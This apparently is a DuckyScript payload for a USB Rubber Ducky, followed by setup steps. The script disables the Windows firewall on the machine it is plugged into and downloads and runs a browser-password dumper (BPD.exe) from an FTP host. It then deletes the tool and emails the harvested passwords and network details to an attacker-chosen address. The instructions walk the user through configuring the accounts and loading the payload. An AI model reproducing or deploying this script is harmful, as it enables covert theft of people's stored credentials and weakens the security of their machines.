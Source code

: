 ++DELAY 800
GUI
DELAY 800
STRING Command Prompt
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 1500
STRING mkdir C:\DuckyReport
ENTER
STRING netsh advfirewall set allprofiles state off
ENTER
STRING ipconfig > C:\DuckyReport\ipconfig.txt
ENTER
STRING cd C:\DuckyReport
ENTER
STRING ftp
ENTER
STRING open ftp.drivehq.com
ENTER
DELAY 2500
STRING YourDriveHQUsername
ENTER
DELAY 2500
STRING YourDriveHQPassword
ENTER
DELAY 2500
STRING get BPD.exe
ENTER
DELAY 8000
STRING close
ENTER
DELAY 800
STRING quit
ENTER
DELAY 800
STRING BPD.exe -f BPD.txt
ENTER
DELAY 2500
STRING del BPD.exe
ENTER
DELAY 800
STRING Exit
ENTER
DELAY 800
GUI
DELAY 1000
STRING Powershell
ENTER
DELAY 1000
STRING $emailSmtpServer = "smtp.gmail.com";$emailSmtpServerPort = "587";$emailSmtpUser = "yourgmailusername@gmail.com";$emailSmtpPass = "YourGmailPassword";$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";$emailMessage.To.Add("EmailToSendTo@example.com");$emailMessage.Body = "See attachments";$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = "C:\DuckyReport\BPD.txt";$emailMessage.Attachments.Add($attachment);$attachment2 = "C:\DuckyReport\ipconfig.txt";$emailMessage.Attachments.Add($attachment2);$SMTPClient.Send($emailMessage);
ENTER
DELAY 5000
STRING exit
ENTER++

# Instructions:
1. Create an free account at [https://www.drivehq.com/features/ftp.aspx](https://www.drivehq.com/features/ftp.aspx)
2. Download BPD.zip and extract it from [https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing](https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing)
3. Go to your account and upload BPD.exe to the root directory.
4. In the script please change the following to your information:
    On line 22 ```STRING YourDriveHQUsername``` change ___YourDriveHQUsername___ to your username for www.drivehq.com

    On line 25 ```STRING YourDriveHQPassword``` change ___YourDriveHQPassword___ to your password for www.drivehq.com

    On line 51 ```$emailSmtpUser = "yourgmailusername@gmail.com";``` This the account email used to send the email with 
        the passwords list. It is only set to use a gmail address. Change ___yourgmailusername@gmail.com___ to your email. 
        Leave the quotation marks on both sides there.

    On line 51 ```$emailSmtpPass = "YourGmailPassword";``` change ___YourGmailPassword___ to the password for your account 
        but leave the quotation marks on both sides there.

    On line 51 ```$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";``` change 
        ___YourEmailAddressHere@gmail.com___ to your email address. Please leave the brackets on either side of the email 
        address.
    On line 51 ```$emailMessage.To.Add("EmailToSendTo@example.com");``` change ___EmailToSendTo@example.com___ to whatever 
        email you are sending the files to. Leave the quotation marks on both sides there.

5. Load the script on your USB RubberDucky and you are ready to do some reconnaissance.